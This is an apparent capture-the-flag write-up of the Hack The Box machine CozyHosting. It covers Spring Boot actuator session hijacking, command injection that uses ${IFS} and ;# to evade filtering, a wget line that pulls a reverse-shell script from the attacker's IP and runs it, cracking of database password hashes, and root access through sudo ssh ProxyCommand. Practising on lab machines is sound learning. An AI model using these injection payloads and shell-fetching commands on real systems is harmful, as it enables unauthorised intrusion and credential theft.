

# CozyHosting

[CozyHosting](https://app.hackthebox.com/machines/CozyHosting) is an **EASY** machine from the Hack The Box platform. In it we will take advantage of a **framework** vulnerability to obtain a session cookie that will allow us to log into a control panel. There we will be able to execute an **RCE** due to a bad sanitization in a text entry. Thanks to the RCE we will be able to obtain a **Reverse Shell** in the target system. Once inside the system, we will find some credentials in a database that will allow us to perform a **user pivoting**. Finally, we will take advantage of the **sudo privileges** of a binary to obtain a console as root.

***

## Enumeration <a href="#user-content-enumeration" id="user-content-enumeration"></a>

Let’s start by scanning the open TCP ports of the target machine:

`nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.11.230 -vvv -oG allPorts`

<figure><figcaption></figcaption></figure>

The scan reported that the ports 22(ssh) and 80(http) are open. Let’s do an exhaustive scan in those ports to try to identify the services and its versions.

`nmap -sCV -p22,80 10.10.11.230 -oN targeted`

<figure><figcaption></figcaption></figure>

Apparently, there is an OpenSSH service running on the TCP port 22. On TCP port 80 is running a nginx service.

It’s worth performing a quick scan of common paths and files using the nmap _**http-enum**_ script.

`nmap --script=http-enum -p80 10.10.11.230 -oN webContent`

<figure><figcaption></figcaption></figure>

Unfortunately, the scan did not reveal any information.

Next we are going to use the **whatweb** tool to try to find out what web tools are being used and their versions.

`whatweb http://10.10.11.230`

<figure><figcaption></figcaption></figure>

It tries to redirect us to [http://cozyhosting.htb](http://cozyhosting.htb/). Let’s add this domain in the **/etc/hosts** file:

<figure><figcaption></figcaption></figure>

Let’s use whatweb again to see if this time we get some more information:

`whatweb http://cozyhosting.htb`

<figure><figcaption></figcaption></figure>

We see some information, but besides an email address ([info@cozyhosting.htb](mailto:info@cozyhosting.htb)) there doesn’t seem to be anything useful that we haven’t seen so far.

Let’s check the website using the web-browser:

<figure><figcaption></figcaption></figure>

The source code of the page does not seem to reveal anything that we can use at the moment. We see that there is a Login button, let’s click it:

<figure><figcaption></figcaption></figure>

We see a login panel. We can try to see if it is vulnerable to **SQL injection**:

<figure><figcaption></figcaption></figure>

After testing with the most common queries, it does not appear to be vulnerable to SQLi.

We are going to use the gobuster tool to search for directories:

`gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://cozyhosting.htb -t 20`

<figure><figcaption></figcaption></figure>

Let’s search for subdomains, to see if we can find any:

`gobuster vhost -u http://cozyhosting.htb/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --append-domain -t 20`

<figure><figcaption></figcaption></figure>

Nooothing, as the server is using nginx, let’s try using the nginx wordlist:

<figure><figcaption></figcaption></figure>

Nothing!

After a while looking at the web page, I realized that when I do hovering over the icon in the mainpage, the url is [http://cozyhosting.htb/index.html](http://cozyhosting.htb/index.html)

<figure><figcaption></figcaption></figure>

When I click on that icon this page appears:

<figure><figcaption></figcaption></figure>

Searching in Google for “Whitelabel Error Page exploit” I found [this interesting link](https://exploit-notes.hdks.org/exploit/web/framework/java/spring-pentesting/).

It seems that if we see this error, the server may be using Spring Boot:

<figure><figcaption></figcaption></figure>

There is a wordlist called “spring-boot.txt” on SecLists that we can use to check it:

`gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb -t 20`

<figure><figcaption></figcaption></figure>

Looks like Spring is being used. It may be vulnerable to SSTI, but we have not found any point for exploiting this vulnerability yet.

At [http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions) we can see that there are some tokens. One of them appears to be related to the user **kanderson**.

<figure><figcaption></figcaption></figure>

Let’s intercept the login request on [http://cozyhosting.htb/login](http://cozyhosting.htb/login) with **BurpSuite**

<figure><figcaption></figcaption></figure>

Here we can see that the website is using a Cookie named **JSESSIONID**. Let’s try to change the value with the one of the kanderson session:

<figure><figcaption></figcaption></figure>

Once done, let’s try to access to [http://cozyhosting.htb/admin](http://cozyhosting.htb/admin)

<figure><figcaption></figcaption></figure>

Yeah, access granted. Let’s take a look at what we can do. All the links are broken, but we have a form we can send.

Let’s intercept the request using **BurpSuite**:

<figure><figcaption></figcaption></figure>

Apparently we are receiving the output of an ssh command that doesn’t recognize “test” as a hostname.

If we don’t provide an username this error appears:

<figure><figcaption></figcaption></figure>

It appears to be executing something like `ssh <hostname>:<username>` and not giving the username input leads into that error.

Maybe we can concatenate code to make the target execute it? Let’s try it writing in the input `;ping -c1 10.10.14.7` and listening for icmp in our machine to see if the code gets executed: `tcpdump -i tun0 icmp -n`

<figure><figcaption></figcaption></figure>

Apparently the input cannot contain whitespaces, and URL encoding them don’t help. We can try replacing the spaces with `${IFS}` that will be interpreted by the bash as a space. So, the username input will look like this: `;ping${IFS}-c1${IFS}10.10.14.7`

<figure><figcaption></figcaption></figure>

Now the input seems right, but we keep getting an error. Maybe the command is not `ssh <hosname>:<username>` and it’s something like `ssh <hostname>:<username> flags and more code`. If this is the case, maybe we can comment everything at the right of out input by adding `;#` to the input. So the username input would be: `;ping${IFS}-c1${IFS}10.10.14.7;#`

Yeah! Our machine received a ping from the target machine, so we can execute commands in the target machine. Let’s try to obtain a **reverse shell**:

`;wget${IFS}http://10.10.14.7/revshell.sh${IFS}-P${IFS}/tmp;#`

<figure><figcaption></figcaption></figure>

Now, let’s change the permissions of the file to make it executable:

`;chmod${IFS}`755`${IFS}/tmp/revshell.sh;#`

<figure><figcaption></figcaption></figure>

And now, let’s try to execute the script! `;/tmp/revshell.sh;#`

<figure><figcaption></figcaption></figure>

And we obtained a **reverse shell**!

Let’s do the _**tty treatment**_:

```
script -c bash /dev/null
CTRL + Z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty columns 206 rows 52
```

Once done, let’s see with which user are we logged as:

<figure><figcaption></figcaption></figure>

Let’s take a look to the _**/etc/pass**_ to see with users are registered with a bash:

<figure><figcaption></figcaption></figure>

So, **josh** and **root**.

<figure><figcaption></figcaption></figure>

There is a **jar** file on the current directory, so let’s transfer it to our machine to extract the data just in case there is anything useful.

<figure><figcaption></figcaption></figure>

I don’t know if it will be useful, but we got credentials to access a database: `postgres:VXXXXXXXxR`

<figure><figcaption></figcaption></figure>

The credentials were valid and now we can take a look to the database info!

With the command `\dt` **psql** shows us the tables of the current database:

<figure><figcaption></figcaption></figure>

With the command `\d <table_name>` we can see the columns of a table. In this case, the table **hosts**:

<figure><figcaption></figcaption></figure>

With the query `SELECT id, username, hostname FROM host;` we can dump all the info contained in these columns:

<figure><figcaption></figcaption></figure>

Let’s do the same for the table **users**:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

The passwords are encrypted, apparently in bcrypt. Let’s try to crack them using **john**:

<figure><figcaption></figcaption></figure>

After a while, **john** reports a coincidence for the admin password. et’s check if that password allows us to do user pivoting:

<figure><figcaption></figcaption></figure>

It didn’t work for root user, but it did for **josh**.

<figure><figcaption></figcaption></figure>

We found the user flag inside the user folder of josh. Now it’s time to do privilege escalation

## Privilege Escalation <a href="#user-content-privilege-escalation" id="user-content-privilege-escalation"></a>

First of all let’s check if **josh** belongs to any privileged group or have any sudo permissions:

<figure><figcaption></figcaption></figure>

**josh** can run ssh as **root**! According to gtfobins.io, executing ssh with sudo rights can give us an interactive root shell!

<figure><figcaption></figcaption></figure>

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

<figure><figcaption></figcaption></figure>

And just like that we obtained a root shell, went to /root folder and found the root flag!

## New things learned <a href="#user-content-new-things-learned" id="user-content-new-things-learned"></a>

* `${IFS}` is interpreted by **bash** as a white space. Useful for inputs.
* In cases where we think we can inject a command it’ll be necessary to add `;` before the command we want to inject (in order to make sure that it’ll be executed after the rest of the command before) and append `;#` after the command we want to inject (in order to comment the rest of the command on the right if any)
* **.jar** files are compressed files that can be decompressed with **unzip**.
